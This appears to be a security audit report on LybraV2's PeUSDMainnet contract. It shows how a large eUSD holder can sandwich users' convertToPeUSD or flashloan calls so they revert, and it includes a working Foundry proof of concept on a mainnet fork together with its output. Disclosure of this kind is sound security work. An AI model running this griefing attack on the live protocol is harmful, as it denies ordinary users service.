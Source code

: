 # `PeUSDMainnet.convertToPeUsd()` and `PeUSDMainnet.executeFlashloan()` can be reverted by sandwich attack from malicious whale.

## Bug Description
`PeUSDMainnet.convertToPeUsd()` and `PeUSDMainnet.executeFlashloan()` have mechanism to check if locked eUSD amount is below `configurator.getEUSDMaxLocked()`.

https://github.com/LybraFinance/LybraV2/blob/main/contracts/lybra/token/PeUSDMainnet.sol#L78
```
    function convertToPeUSD(address user, uint256 eusdAmount) public {
        ...
        require(EUSD.balanceOf(address(this)) + eusdAmount <= configurator.getEUSDMaxLocked() || _msgSender() == address(configurator),"ESL");
```

https://github.com/LybraFinance/LybraV2/blob/main/contracts/lybra/token/PeUSDMainnet.sol#L132
```
    function executeFlashloan(uint256 eusdAmount, bytes calldata data) external {
        ...
        require(success, "TF");
        require(EUSD.balanceOf(address(this)) <= configurator.getEUSDMaxLocked(),"ESL");
```

A malicious user with enough eUSD can sandwich these txs with frontrunning `convertToPeUSD()` and backrunning `convertToEUSD()` and cause victim tx to be reverted because of these check.

Here's current configuration.
```
  Max locked eUSD: 61593067.220741838649947638
  Current locked eUSD: 4460888.340368132227300903
  Difference: 57132178.880373706422646735
```

Scenario 1:
- Let's imagine that victim wants to convert 20M eUSD to peUSD.

- It means a malicious user with more than 37M eUSD can sabotage victim's tx.

Scenario 2:
- Let's imagine that victim wants to get flashloan.

- A malicious user with more than 57M eUSD can sabotage victim's flashloan.

## Impact
Conversion from eUSD to peUSD or eUSD flashloan might be DoSed.

## Recommendation
1) Fee can be applied to `convertToPeUsd()` or `convertToEUSD()` to make these griefing sandwitch attacks unprofitable for a malicious whale.

2) eUSD->peUSD and peUSD->eUSD conversion should not happen at same block given an address.

```
    mapping (address=>uint256) internal lastConvertTime;
```

## Proof of Concept
```
pragma solidity 0.8.20;

import "forge-std/Test.sol";

import "@openzeppelin/contracts/interfaces/IERC20.sol";

interface Configurator {
    function getEUSDMaxLocked() external view returns (uint256);
}

interface PeUsd is IERC20 {
    function convertToPeUSD(address user, uint256 eusdAmount) external;
    function convertToEUSD(uint256 peusdAmount) external;

    function executeFlashloan(uint256 eusdAmount, bytes calldata data) external;
    
    function userConvertInfo(address user) external returns (
        uint256 depositedEUSDShares,
        uint256 mintedPeUSD);
}

address constant recipient  = 0xF886796d631999D80b9D4d7e13712849Bd41fd5F;

contract LybraTest is Test {
    address                 victim = 0xee2826453A4Fd5AfeB7ceffeEF3fFA2320081268;
    Configurator            configurator = Configurator(0xC8353594Eeedc5ce5a4544D3D9907b694c4690Ff);
    IERC20                  EUSD = IERC20(0xdf3ac4F479375802A821f7b7b46Cd7EB5E4262cC);
    PeUsd                   peUSD = PeUsd(0xD585aaafA2B58b1CD75092B51ade9Fa4Ce52F247);

    function setUp() public {
        vm.createSelectFork("mainnet");
        vm.label(address(EUSD), "eUSD");
        vm.label(address(peUSD), "peUSD");
    }

    function testConvertPeUsd() public {
        uint256 maxLocked = configurator.getEUSDMaxLocked();
        uint256 currentLocked = EUSD.balanceOf(address(peUSD));
        uint256 availableLocked = maxLocked - currentLocked;
        address victim = 0xee2826453A4Fd5AfeB7ceffeEF3fFA2320081268;
        uint256 victimEUSD = EUSD.balanceOf(victim);
        uint256 requiredLocked = availableLocked - victimEUSD + 1 ether;
        address whale = address(0x01);

        emit log_named_decimal_uint("Max locked eUSD", maxLocked, 18);
        emit log_named_decimal_uint("Current locked eUSD", currentLocked, 18);
        emit log_named_decimal_uint("Available locked eUSD", availableLocked, 18);
        emit log_named_decimal_uint("Required eUSD", requiredLocked, 18);

        console.log("Step 0: Whale Accummulating...");
        vm.startPrank(0xC53127AF77cBa7D07DC08e271bD0826c55f97467);
        EUSD.transfer(whale, EUSD.balanceOf(0xC53127AF77cBa7D07DC08e271bD0826c55f97467));
        vm.stopPrank();
        vm.startPrank(0x7a3569bA5b0d3cD81D17E8eB246505bF0A6cbA10);
        EUSD.transfer(whale, EUSD.balanceOf(0x7a3569bA5b0d3cD81D17E8eB246505bF0A6cbA10));
        vm.stopPrank();

        emit log_named_decimal_uint("Whale's eUSD", EUSD.balanceOf(whale), 18);

        vm.startPrank(whale);
        console.log("Step 1: Whale's frontrunning convertToPeUSD");
        peUSD.convertToPeUSD(whale, requiredLocked);
        vm.stopPrank();

        console.log("Step 2: Victim's convertToPeUSD, flashloan will revert!!!");
        vm.startPrank(victim);
        vm.expectRevert();
            peUSD.convertToPeUSD(victim, victimEUSD);
        vm.stopPrank();

        vm.startPrank(whale);
        console.log("Step 3: Whale's backrunning convertToEUSD");
        (, uint256 mintedPeUSD) = peUSD.userConvertInfo(whale);
        peUSD.convertToEUSD(mintedPeUSD);
        vm.stopPrank();
    }
}
```

### Output
```
Running 1 test for test/Lybra_test.sol:AuctionTest
[PASS] testConvertPeUsd() (gas: 176269)
Logs:
  Max locked eUSD: 61593067.220741838649947638
  Current locked eUSD: 4460888.340368132227300903
  Available locked eUSD: 57132178.880373706422646735
  Required eUSD: 47804944.578961505362999232
  Step 0: Whale Accummulating...
  Whale's eUSD: 50584496.426604306530457479
  Step 1: Whale's frontrunning convertToPeUSD
  Step 2: Victim's convertToPeUSD will revert!!!
  Step 3: Whale's backrunning convertToEUSD

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 27.95s
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)

```